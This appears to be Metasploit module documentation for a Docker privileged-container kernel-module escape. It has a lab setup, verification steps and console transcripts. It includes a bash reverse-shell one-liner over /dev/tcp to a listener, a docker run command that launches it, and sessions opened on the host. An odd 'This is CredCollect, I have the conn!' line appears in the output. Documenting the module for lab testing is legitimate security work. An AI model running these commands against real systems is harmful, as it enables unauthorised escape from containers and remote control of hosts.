 ## Vulnerable Application

This module performs a container escape onto the host as the daemon user. It
takes advantage of the SYS_MODULE capability. If that exists and the linux
headers are available to compile on the target, then we can escape onto the host.

### Creating A Testing Environment

- Get a VM that you want to test on (or your own machine)
- Install Docker
- Run a listener (can be anything but well use an example of a bash reverse shell)
```msf
msf6 > use payload/cmd/unix/reverse_bash
msf6 payload(cmd/unix/reverse_bash) > set lhost vboxnet0 
lhost => 192.168.56.1
msf6 payload(cmd/unix/reverse_bash) > generate -f raw
bash -c '0<&118-;exec 118<>/dev/tcp/192.168.56.1/4444;sh <&118 >&118 2>&118'
msf6 payload(cmd/unix/reverse_bash) > exploit -z
[*] Payload Handler Started as Job 0
msf6 payload(cmd/unix/reverse_bash) > 
[*] [2023.11.07-21:28:57] Started reverse TCP handler on 192.168.56.1:4444
```
- Create a privileged container (forwarding port 4444 in this example in order
to use a bind shell from the host. Container must be the same OS as host)
```bash
docker run --rm -it -p 4444:4444 --cap-add SYS_MODULE ubuntu bash -c '0<&118-;exec 118<>/dev/tcp/192.168.56.1/4444;sh <&118 >&118 2>&118'
```
- Inside your session, install the required packages to run. Package manager will differ to OS, for debian as an example
```bash
apt update && apt install -y gcc make kmod linux-headers-$(uname -r)
```

## Verification Steps

1. start msfconsole
2. get a session
3. install required packages into session (line 30)
4. `use exploit/linux/local/docker_privileged_container_kernel_escape`
5. `set SESSION [session]`
6. `check`
7. `set PAYLOAD [payload]`
8. `exploit`

## Options

### KernelModuleName

The name that the kernel module will be called in the system. The default if no
name is set is "{rand(8)}"

### WritableContainerDir

A directory where we can write files inside the container (default is /tmp/.{rand(4)}).
This is needed to drop the payload into the container.

### ReloadKernelModule

Rebuilds and reloads kernel module if its already loaded in case of repeat runs.

## Scenarios

### Container Escape from debian linux with reverse bash

```msf
msf6 > sessions -i 1 -c "apt update && apt install -y gcc make kmod linux-headers-$(uname -r)"
[*] Running 'apt update && apt install -y gcc make kmod linux-headers-$(uname -r)' on shell session 1 (192.168.56.126)
msf6 > use exploit/linux/local/docker_privileged_container_kernel_escape 
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/local/docker_privileged_container_kernel_escape) > set session 1 
session => 1
msf6 exploit(linux/local/docker_privileged_container_kernel_escape) > check 
[*] The target appears to be vulnerable. Inside Docker container and target appears vulnerable
msf6 exploit(linux/local/docker_privileged_container_kernel_escape) > exploit -z

[*] [2023.11.07-21:42:40] Started reverse TCP handler on 192.168.56.1:4444 
[*] [2023.11.07-21:42:42] Creating files
[*] [2023.11.07-21:42:43] Making kernel module
[+] [2023.11.07-21:42:43] Kernel module compiled successfully
[*] [2023.11.07-21:42:43] Loading kernel module
[*] Command shell session 3 opened (192.168.56.1:4444 -> 192.168.56.126:60974) at 2023-11-07 21:42:50 -0500
[*] This is CredCollect, I have the conn!
```

### Container Escape from arch linux with meterpreter

```msf
msf6 > sessions -i 2 -c "pacman -Syy --noconfirm gcc glibc make linux-headers"
[*] Running 'pacman -Syy --noconfirm gcc glibc make linux-headers' on shell session 2 (192.168.56.106)
msf6 > use exploit/linux/local/docker_privileged_container_kernel_escape 
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/local/docker_privileged_container_kernel_escape) > set session 2 
session => 2
msf6 exploit(linux/local/docker_privileged_container_kernel_escape) > set payload cmd/linux/http/x64/meterpreter/reverse_tcp 
payload => cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/docker_privileged_container_kernel_escape) > set lhost vboxnet0 
lhost => vboxnet0
msf6 exploit(linux/local/docker_privileged_container_kernel_escape) > check 
[*] The target appears to be vulnerable. Inside Docker container and target appears vulnerable
msf6 exploit(linux/local/docker_privileged_container_kernel_escape) > exploit -z

[*] [2023.11.07-21:48:40] Started reverse TCP handler on 192.168.56.1:4444 
[*] [2023.11.07-21:48:41] Creating files
[*] [2023.11.07-21:48:43] Making kernel module
[+] [2023.11.07-21:48:44] Kernel module compiled successfully
[*] [2023.11.07-21:48:44] Loading kernel module
[*] [2023.11.07-21:48:44] Sending stage (3045380 bytes) to 192.168.56.106
[*] Meterpreter session 4 opened (192.168.56.1:4444 -> 192.168.56.106:50402) at 2023-11-07 21:48:45 -0500
[*] This is CredCollect, I have the conn!
[!] [2023.11.07-21:48:45] Attempting to delete working directory /tmp/.IvLx
[*] Session 4 created in the background.
```
